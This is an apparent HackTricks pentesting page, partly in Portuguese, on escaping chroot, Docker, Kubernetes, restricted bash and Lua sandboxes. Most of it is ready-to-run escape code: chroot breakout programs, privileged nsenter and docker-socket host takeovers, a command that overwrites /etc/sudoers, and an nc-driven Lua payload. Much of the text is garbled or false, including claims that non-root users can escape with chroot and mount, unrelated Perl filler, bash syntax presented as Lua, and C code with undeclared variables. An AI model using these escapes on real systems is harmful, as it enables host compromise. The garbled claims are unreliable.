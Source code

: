 ```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/stat.h>
#include <sys/types.h>

int main(int argc, char **argv) {
    if (argc != 2) {
        printf("Usage: %s <directory>\n", argv[0]);
        exit(1);
    }

    if (chroot(argv[1]) != 0) {
        perror("chroot");
        exit(1);
    }

    if (chdir("/") != 0) {
        perror("chdir");
        exit(1);
    }

    system("/bin/bash");
    return 0;
}
```

</details>

```bash
gcc break_chroot.c -o break_chroot
./break_chroot /new_chroot
```

### Root + Mount

If you are **root** inside a chroot you **can escape** creating a **mount**. This because **mounts are not affected** by chroot.

```bash
mkdir /tmp/new_root
mount --bind / /tmp/new_root
chroot /tmp/new_root
```

### User + CWD

If you are **not root** inside a chroot you **can escape** creating a **new chroot** with a **new user**. This because **chroot doesn't affect** the **user**.

```bash
mkdir /tmp/new_chroot
cp /bin/bash /tmp/new_chroot
chroot /tmp/new_chroot /bin/bash
su new_user
```

### User + Mount

If you are **not root** inside a chroot you **can escape** creating a **mount**. This because **mounts are not affected** by chroot.

```bash
mkdir /tmp/new_root
mount --bind / /tmp/new_root
chroot /tmp/new_root
su new_user
```

## Docker Escapes

### Docker Breakouts

From [wikipedia](https://en.wikipedia.org/wiki/Docker_(software)#Security): Docker's default configuration relies on the host kernel for container isolation and security. By default, Docker containers share the host system's filesystem and network interface(s), but can be further restricted with the `--read-only` and `--net=none` flags. Linux capabilities and seccomp filters can be used to control the container's access to the host system.

{% hint style="success" %}
The **tool** [**Docker Escape**](https://github.com/KrustyHack/docker-escape) was created to automate the following escenarios and scape from `Docker`.
{% endhint %}

### Docker Breakout via Build

If you can **build a Docker image** you can **escape** from it.

```dockerfile
FROM ubuntu:18.04
RUN apt-get update && apt-get install -y wget
RUN wget https://raw.githubusercontent.com/KrustyHack/docker-escape/master/docker_escape.c
RUN gcc docker_escape.c -o docker_escape
CMD ["bash"]
```

```bash
docker build -t escape .
docker run -it --privileged escape
./docker_escape
```

### Docker Breakout via Run

If you can **run a Docker container** you can **escape** from it.

```bash
docker run -it --rm --privileged --pid=host debian nsenter -t 1 -m -u -n -i sh
```

### Docker Breakout via Volume

If you can **mount a volume** you can **escape** from it.

```bash
docker run -it --rm -v /:/mnt alpine chroot /mnt sh
```

### Docker Breakout via Environment Variables

If you can **set environment variables** you can **escape** from it.

```bash
docker run -it --rm -e LD_PRELOAD=/tmp/lib.so alpine sh
```

### Docker Breakout via Docker Socket

If you can **access the Docker socket** you can **escape** from it.

```bash
docker run -it --rm -v /var/run/docker.sock:/var/run/docker.sock alpine docker -H unix:///var/run/docker.sock run -v /:/mnt -it alpine chroot /mnt sh
```

## Kubernetes Escapes

### Kubernetes Breakouts

From [wikipedia](https://en.wikipedia.org/wiki/Kubernetes#Security): Kubernetes provides various security features to protect the master node(s) and the nodes. The API server component provides authentication and authorization mechanisms, such as client certificates, bearer tokens, and Kubernetes Role-Based Access Control (RBAC). The kubelet component provides node-level authentication and authorization using x509 certificates and a small set of built-in roles.

{% hint style="success" %}
The **tool** [**Kubeletctl**](https://github.com/cyberark/kubeletctl) was created to automate the following escenarios and scape from `Kubernetes`.
{% endhint %}

### Kubernetes Breakout via Pod

If you can **create a pod** you can **escape** from it.

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: breakout
spec:
  containers:
  - name: breakout
    image: alpine
    command: ["/bin/sh"]
    args: ["-c", "mount --bind / /mnt; chroot /mnt sh"]
    securityContext:
      privileged: true
  restartPolicy: Never
```

```bash
kubectl apply -f breakout.yaml
kubectl exec -it breakout sh
```

### Kubernetes Breakout via Service Account Token

If you can **access a service account token** you can **escape** from it.

```bash
TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)
curl -H "Authorization: Bearer $TOKEN" https://kubernetes/api/v1/namespaces/default/pods
```

### Kubernetes Breakout via Kubelet API

If you can **access the kubelet API** you can **escape** from it.

```bash
curl -k https://kubelet:10250/run/default/breakout -XPOST -d 'cmd=sh&cmd=-c&cmd=mount%20--bind%20/%20/mnt;%20chroot%20/mnt%20sh'
```
```c
#include <sys/stat.h>
#include <stdlib.h>
#include <unistd.h>

//gcc break_chroot.c -o break_chroot

int main(void)
{
    mkdir("chroot-dir", 0755);
    chroot("chroot-dir");
    for(int i = 0; i < 1000; i++) {
        chdir("..");
    }
    chroot(".");
    system("/bin/bash");
}
```
</details>

<details>

<summary>Python</summary>

Python

</details>
```python
#!/usr/bin/python
import os
os.mkdir("chroot-dir")
os.chroot("chroot-dir")
for i in range(1000):
    os.chdir("..")
os.chroot(".")
os.system("/bin/bash")
```
</details>

<details>

<summary>Perl</summary>

O Perl é uma linguagem de programação interpretada, multiplataforma e de alto nível. É frequentemente usada para automação de tarefas, processamento de texto e desenvolvimento web. O Perl é uma linguagem poderosa e flexível, com muitos módulos disponíveis para facilitar o desenvolvimento de aplicativos.

Para executar um comando em Perl, você pode usar a função `system()`. Por exemplo, para executar o comando `ls -la`, você pode usar o seguinte código:

```perl
system("ls -la");
```

Para executar um comando com privilégios elevados, você pode usar a função `sudo`. Por exemplo, para executar o comando `whoami` com privilégios elevados, você pode usar o seguinte código:

```perl
system("sudo whoami");
```

O Perl também tem a capacidade de executar comandos em segundo plano usando a função `fork()`. Por exemplo, para executar o comando `ping` em segundo plano, você pode usar o seguinte código:

```perl
if (fork() == 0) {
    exec("ping 8.8.8.8");
}
```

Este código cria um novo processo filho usando a função `fork()`. O processo filho executa o comando `ping 8.8.8.8` usando a função `exec()`. O processo pai continua a executar o código restante.

O Perl também tem a capacidade de executar comandos em um shell interativo usando a função `open()`. Por exemplo, para abrir um shell interativo, você pode usar o seguinte código:

```perl
open(SHELL, "|/bin/bash");
```

Este código abre um shell interativo usando a função `open()`. O shell é executado no modo de pipe, permitindo que você envie comandos para o shell e receba a saída de volta. Você pode enviar comandos para o shell usando a função `print()`. Por exemplo, para executar o comando `ls -la` no shell interativo, você pode usar o seguinte código:

```perl
print SHELL "ls -la\n";
```

Este código envia o comando `ls -la` para o shell interativo usando a função `print()`. A saída do comando é enviada de volta para o script Perl e pode ser lida usando a função `readline()`. Por exemplo, para ler a saída do comando `ls -la`, você pode usar o seguinte código:

```perl
while (<SHELL>) {
    print $_;
}
```

Este código lê a saída do shell interativo linha por linha usando a função `readline()` e a imprime na tela usando a função `print()`.
```perl
#!/usr/bin/perl
mkdir "chroot-dir";
chroot "chroot-dir";
foreach my $i (0..1000) {
    chdir ".."
}
chroot ".";
system("/bin/bash");
```
</details>

### Root + FD salvo

{% hint style="warning" %}
Este caso é semelhante ao anterior, mas neste caso o **atacante armazena um descritor de arquivo para o diretório atual** e, em seguida, **cria o chroot em uma nova pasta**. Finalmente, como ele tem **acesso** a esse **FD fora** do chroot, ele o acessa e **escapa**.
{% endhint %}

<details>

<summary>C: break_chroot.c</summary>
```c
#include <sys/stat.h>
#include <stdlib.h>
#include <unistd.h>

//gcc break_chroot.c -o break_chroot

int main(void)
{
    mkdir("tmpdir", 0755);
    dir_fd = open(".", O_RDONLY);
    if(chroot("tmpdir")){
        perror("chroot");
    }
    fchdir(dir_fd);
    close(dir_fd);  
    for(x = 0; x < 1000; x++) chdir("..");
    chroot(".");
}
```
</details>

### Root + Fork + UDS (Unix Domain Sockets)

{% hint style="warning" %}
FD pode ser passado por Unix Domain Sockets, então:

* Crie um processo filho (fork)
* Crie UDS para que o pai e o filho possam se comunicar
* Execute chroot no processo filho em uma pasta diferente
* No processo pai, crie um FD de uma pasta que está fora do novo chroot do processo filho
* Passe para o processo filho esse FD usando o UDS
* O processo filho muda para o diretório desse FD e, como está fora do chroot, ele escapará da prisão
{% endhint %}

### &#x20;Root + Mount

{% hint style="warning" %}
* Montando o dispositivo raiz (/) em um diretório dentro do chroot
* Executando chroot nesse diretório

Isso é possível no Linux
{% endhint %}

### Root + /proc

{% hint style="warning" %}
* Monte o procfs em um diretório dentro do chroot (se ainda não estiver)
* Procure um pid que tenha uma entrada de raiz/cwd diferente, como: /proc/1/root
* Chroot nessa entrada
{% endhint %}

### Root(?) + Fork

{% hint style="warning" %}
* Crie um Fork (processo filho) e chroot em uma pasta diferente mais profunda no FS e CD nela
* Do processo pai, mova a pasta onde o processo filho está para uma pasta anterior ao chroot dos filhos
* Esse processo filho se encontrará fora do chroot
{% endhint %}

### ptrace

{% hint style="warning" %}
* Há algum tempo, os usuários podiam depurar seus próprios processos a partir de um processo próprio ... mas isso não é mais possível por padrão
* De qualquer forma, se for possível, você pode ptrace em um processo e executar um shellcode dentro dele ([veja este exemplo](linux-capabilities.md#cap\_sys\_ptrace)).
{% endhint %}

## Bash Jails

### Enumeração

Obtenha informações sobre a prisão:
```bash
echo $SHELL
echo $PATH
env
export
pwd
```
### Modificar PATH

Verifique se é possível modificar a variável de ambiente PATH.
```bash
echo $PATH #See the path of the executables that you can use
PATH=/usr/local/sbin:/usr/sbin:/sbin:/usr/local/bin:/usr/bin:/bin #Try to change the path
echo /home/* #List directory
```
### Usando o vim
```bash
:set shell=/bin/sh
:shell
```
### Criar script

Verifique se você pode criar um arquivo executável com _/bin/bash_ como conteúdo.
```bash
red /bin/bash
> w wx/path #Write /bin/bash in a writable and executable path
```
### Obter bash a partir do SSH

Se você estiver acessando via ssh, pode usar este truque para executar um shell bash:
```bash
ssh -t user@<IP> bash # Get directly an interactive shell
ssh user@<IP> -t "bash --noprofile -i"
ssh user@<IP> -t "() { :; }; sh -i "
```
### Declaração
```bash
declare -n PATH; export PATH=/bin;bash -i
 
BASH_CMDS[shell]=/bin/bash;shell -i
```
### Wget

Você pode sobrescrever, por exemplo, o arquivo sudoers.
```bash
wget http://127.0.0.1:8080/sudoers -O /etc/sudoers
```
### Outros truques

[**https://fireshellsecurity.team/restricted-linux-shell-escaping-techniques/**](https://fireshellsecurity.team/restricted-linux-shell-escaping-techniques/)\
[https://pen-testing.sans.org/blog/2012/06/06/escaping-restricted-linux-shells](https://pen-testing.sans.org/blog/2012/06/06/escaping-restricted-linux-shells)\
[https://gtfobins.github.io](https://gtfobins.github.io/)\
**Também pode ser interessante a página:**

{% content-ref url="../useful-linux-commands/bypass-bash-restrictions.md" %}
[bypass-bash-restrictions.md](../useful-linux-commands/bypass-bash-restrictions.md)
{% endcontent-ref %}

## Jaulas Python

Truques sobre como escapar de jaulas Python na seguinte página:

{% content-ref url="../../generic-methodologies-and-resources/python/bypass-python-sandboxes/" %}
[bypass-python-sandboxes](../../generic-methodologies-and-resources/python/bypass-python-sandboxes/)
{% endcontent-ref %}

## Jaulas Lua

Nesta página, você pode encontrar as funções globais às quais você tem acesso dentro do Lua: [https://www.gammon.com.au/scripts/doc.php?general=lua\_base](https://www.gammon.com.au/scripts/doc.php?general=lua\_base)

**Avaliação com execução de comando:**
```bash
load(string.char(0x6f,0x73,0x2e,0x65,0x78,0x65,0x63,0x75,0x74,0x65,0x28,0x27,0x6c,0x73,0x27,0x29))()
```
Algumas dicas para **chamar funções de uma biblioteca sem usar pontos**:

- Use a função `declare` para criar uma referência para a biblioteca: `declare -a lib=(/lib/x86_64-linux-gnu/libc.so.6)`
- Chame a função desejada usando a sintaxe `${lib[nome_da_funcao]}`: `${lib[system]}('ls')`
```bash
print(string.char(0x41, 0x42))
print(rawget(string, "char")(0x41, 0x42))
```
# Enumerar funções de uma biblioteca:

Para enumerar as funções de uma biblioteca, podemos usar a ferramenta `nm`. O `nm` lista os símbolos (incluindo as funções) de um arquivo objeto ou de uma biblioteca compartilhada.

Para listar as funções de uma biblioteca, execute o seguinte comando:

```bash
nm -gC /path/to/library.so
```

Onde `/path/to/library.so` é o caminho para a biblioteca que você deseja listar as funções.

O parâmetro `-g` lista apenas os símbolos globais (ou seja, as funções que podem ser acessadas por outros arquivos) e o parâmetro `-C` desmangle os nomes das funções (ou seja, converte os nomes das funções de sua forma codificada para sua forma legível por humanos).

O resultado será uma lista de todas as funções na biblioteca, juntamente com seus endereços na memória.
```bash
for k,v in pairs(string) do print(k,v) end
```
Observe que toda vez que você executa o comando anterior em um **ambiente lua diferente, a ordem das funções muda**. Portanto, se você precisar executar uma função específica, pode realizar um ataque de força bruta carregando diferentes ambientes lua e chamando a primeira função da biblioteca "le":
```bash
#In this scenario you could BF the victim that is generating a new lua environment 
#for every interaction with the following line and when you are lucky
#the char function is going to be executed
for k,chr in pairs(string) do print(chr(0x6f,0x73,0x2e,0x65,0x78)) end

#This attack from a CTF can be used to try to chain the function execute from "os" library
#and "char" from string library, and the use both to execute a command
for i in seq 1000; do echo "for k1,chr in pairs(string) do for k2,exec in pairs(os) do print(k1,k2) print(exec(chr(0x6f,0x73,0x2e,0x65,0x78,0x65,0x63,0x75,0x74,0x65,0x28,0x27,0x6c,0x73,0x27,0x29))) break end break end" | nc 10.10.10.10 10006 | grep -A5 "Code: char"; done
```
**Obter shell lua interativa**: Se você estiver dentro de uma shell lua limitada, poderá obter uma nova shell lua (e, esperançosamente, ilimitada) chamando:
```bash
debug.debug()
```
## Referências

* [https://www.youtube.com/watch?v=UO618TeyCWo](https://www.youtube.com/watch?v=UO618TeyCWo) (Slides: [https://deepsec.net/docs/Slides/2015/Chw00t\_How\_To\_Break%20Out\_from\_Various\_Chroot\_Solutions\_-\_Bucsay\_Balazs.pdf](https://deepsec.net/docs/Slides/2015/Chw00t\_How\_To\_Break%20Out\_from\_Various\_Chroot\_Solutions\_-\_Bucsay\_Balazs.pdf))

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Você trabalha em uma **empresa de cibersegurança**? Você quer ver sua **empresa anunciada no HackTricks**? ou quer ter acesso à **última versão do PEASS ou baixar o HackTricks em PDF**? Confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* Adquira o [**swag oficial do PEASS & HackTricks**](https://peass.creator-spring.com)
* **Junte-se ao** [**💬**](https://emojipedia.org/speech-balloon/) [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga-me** no **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Compartilhe suas técnicas de hacking enviando PRs para o** [**repositório hacktricks**](https://github.com/carlospolop/hacktricks) **e para o** [**repositório hacktricks-cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
